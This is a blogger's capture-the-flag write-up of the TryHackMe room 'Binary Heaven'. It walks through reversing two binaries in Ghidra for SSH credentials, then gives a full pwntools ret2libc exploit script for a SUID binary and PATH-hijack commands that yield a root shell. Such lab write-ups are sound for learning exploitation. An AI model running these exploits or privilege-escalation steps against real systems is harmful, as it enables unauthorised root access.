 # Binary Heaven

https://tryhackme.com/room/binaryheaven

A binex heavy room - which normally I would avoid, as its an area I have little experience in (and all of that painful). But, being a new room with no writeups and needing to keep my streak up, I dived in :) Learned a bit, so thats awesome.

A scan of the box revealed just a single port, 22. The room started with giving you two binaries to reverse in order to get the SSH credentials.

## Part 1: angel_A and angel_B

These two binaries, A and B, contained the ssh username and password respectively. They were in C and Go, i.e. angel_A was 17kb and angel_B was ~2mb :D

### angel_A

Opening this in ghidra showed code similar to the following:

```c
  printf("\x1b[36m\nSay my username >> \x1b[0m");
  fgets((char *)local_15,9,stdin);
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      puts("\x1b[32m\nCorrect! That is my name!\x1b[0m");
      return 0;
    }
    if (*(int *)(username + (long)local_c * 4) != (char)(local_15[local_c] ^ 4) + 8) break;
    local_c = local_c + 1;
  }
```

Following that username pointer back showed a block of bytes a bit like this:

```
           00104060 6b              undefined16Bh                     [0]                               XREF[3]:     Entry Point(*), main:00101202(*), 
                                                                                                                     main:00101209(R)  
           00104061 00              undefined100h                     [1]
           00104062 00              undefined100h                     [2]
           00104063 00              undefined100h                     [3]
           00104064 79              undefined179h                     [4]
           00104065 00              undefined100h                     [5]
           00104066 00              undefined100h                     [6]
           00104067 00              undefined100h                     [7]
           00104068 6d              undefined16Dh                     [8]
           00104069 00              undefined100h                     [9]
           0010406a 00              undefined100h                     [10]
           0010406b 00              undefined100h                     [11]
           0010406c 7e              undefined17Eh                     [12]
           0010406d 00              undefined100h                     [13]
           0010406e 00              undefined100h                     [14]
           ... etc
```

If you look closely, you can see every fourth byte looks a bit like its in the ascii range, which kind of matches with this code from the check: `username + (long)local_c * 4`, e.g. take the index we are up to, multiply it by four, and check against that byte. Furthermore, there was a `^ 4` permutation too. I took the bytes from the above block, put them in cyberchef, then messed with XORing until I got the username (it was obvious when the string was unmangled enough to resemble and english word).

### angel_B

This challenge was a lot harder. Being Go, opening it in ghidra showed a huge mess, and even though I found where the input is checked, it used some sort of memory check rather than string compare to do it. Furthermore, in a go binary, strings are not stored just as null terminated byte sets: instead they're all in one huge blog which, since a given go binary includes a lot of its standard library, has a huge mass of other strings in there too.

I tried a few things, including straight brute forcing the password using bash like `for i in $(cat all-english-words.txt); do (echo $i | ./angel_B && echo $i) >> result.txt; done;`, which took hours but achieved nothing. I also tried some custom go ghidra scripts from here: https://cujo.com/reverse-engineering-go-binaries-with-ghidra/, and I played around with [Delve](https://github.com/go-delve/delve), a GDB-like program for go debugging, which was fun but ultimately not useful.

In the end, the solution was simple: I reopened Ghidra, and re-examined the binary but on the analysis options screen, selected ALL the options (even the red experimental ones). For whatever reason, while making the decompiled code even more incomprehensible, this fixed the referencing of the memory address being checked at:

```c
  if ((puVar2 == (undefined *)0xb) &&
     (puVar14 = puVar2,
     runtime.memequal(CONCAT71(uVar8,uVar7),CONCAT71(uVar6,uVar5),(int)extraout_RDX,0xb,uVar9,uVar11
                      ,*puVar13,&DAT_004cad0b,0xb,cVar15), uVar4 = extraout_RDX_01, cVar15 != '\0'))
  {
```

that `DAT_004cad0b` above, when followed, led to the password in a sequence of plain ascii bytes. Good job Ghidra, got there in the end :)

## pwn_me

On the box was the user flag, and a suid binary running as the user `binexgod`, called `pwn_me`. When run, this would tell you the `system` location then wait for input. The system location changed each time - ASLR (address space layout randomisation) eas enabled on the box.

This stumped me for a bit - as I said, I am not experienced at binex. I worked out the buffer size was roughly 28 characters and tried, like a blind caveman, shoving the system address into the overwrite position without luck. I went off to do some research, specifically around 'system' and binex.

This led me to ret2system, or more generally **ret2libc**, and I found a tutorial that proved excellent: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc. This was exactly what I needed - in fact, pwn tools was already on the box! Except... ASLR was already enabled? Meaning that I couldn't just hardcode the location of libc then add offsets...

In the end, perhaps more complicated than I needed to be, I worked out the difference in offset between system and '/bin/sh' in libc, then read the location of system from the program's out and added the offset as needed. The difference between the two was different on my test machine compared to the box, so after proving the method I had to tweak it before final exploitation. To calculate the differences I used `strings -a -t x /lib32/libc.so.6 | grep /bin/sh` to get the strings location, subbed from that `readelf -s /lib32/libc.so.6 | grep system` using a hex calculator, then added that into the script to add to the read system value. The final script (with my host machine's offset, not the targets) was:

```python
from pwn import *

p = process('./pwn_me')

p.recvline()
line2 = p.recvline()
system = int(line2.split(b': ')[1].split(b'\n')[0], 16)
binsh = system + 0x14733c

payload  = b'A' * 32
payload += p32(system)
payload += p32(0x0)
payload += p32(binsh)

p.clean()
p.sendline(payload)
p.interactive()
```

This worked and I had privesc and got binexgod's flag :)

## root

The final privesc was a bit of a throwaway: there was another suid binary called `vuln`, which had the source file besides it:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

There was a script which printed an animated nyancat in the terminal (by this point I had added my public key to binexgod's ssh folder so I could just ssh in, getting a nice terminal) but I am pretty sure that was just there as a red herring. The above looked like a plain path exploit, and it was:

```bash
echo /bin/sh -p > echo
chmod +x ./echo
export PATH=/home/binexgod:$PATH
./vuln
```

And I had a root shell and the final flag :)
